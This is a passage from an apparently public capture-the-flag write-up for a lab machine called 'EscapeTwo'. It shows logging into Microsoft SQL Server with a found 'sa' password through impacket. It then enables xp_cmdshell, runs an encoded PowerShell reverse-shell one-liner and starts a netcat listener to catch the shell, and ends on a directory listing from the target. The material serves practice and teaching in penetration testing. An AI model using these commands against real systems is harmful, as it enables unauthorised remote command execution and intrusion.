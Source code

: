 So in the previous output parte data we saw a credential related with that service: `sa:MSSQLP@ssw0rd!`, so we could try ro connect at this service using **impacket**.
####
```bash
impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
```
####
The *MSSQL* have a specifique form to enumerate things, this service have a way to execute commands in the target machine.
####
<div class="info">

> **xp_cmdshell** command execution is a powerful technique available to penetration testers targeting Microsoft SQL Server environments. Microsoft introduced xp_cmdshell with T-SQL in *(SQL Server 6.0)* (1995) as part of the extended stored procedures, allowing users to execute operating system commands directly from SQL Server.
</div>

####
I found a article that explain very well how to gain access in Windows machine using that command, the article is this: [MSSQL-Command-Execute-XP-Cmdshell](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/). The article explain that is necessary enable the command execution: `EXEC sp_configure 'xp_cmdshell', 1;` and save configuration with `Reconfigure`.
####
The *One-liner* will be a Powershell command with **rlwrap** listener.
####
<div class="img">
    <img src="/machines/public/escapetwo/3.png" loading="lazy" decoding="async" />
</div> 

####
```ruby
MSSQL-Client ->
    1. EXEC sp_configure 'xp_cmdshell', 1;
    2. RECONFIGURE;
    3. xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE...

Local Machine ->
    rlwrap nc -nlvp 1234
```
####
Our user `sql_svc` don't have the user flag, so if we see the users in `C:\Users`, we are able to see a **ryan** user. So that suggest that we need to convert in ryan user. Exploring in the target machine in the main path: `C:\` exist a directory named *SQL2019*. Entering with deep into this directory we can se several files:
####
```ruby
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/8/2024   3:07 PM                1033_ENU_LP
d-----         6/8/2024   3:07 PM                redist
d-----         6/8/2024   3:07 PM                resources
d-----         6/8/2024   3:07 PM                x64
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML
-a----         6/8/2024   3:07 PM             16 PackageId.dat
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL
```
####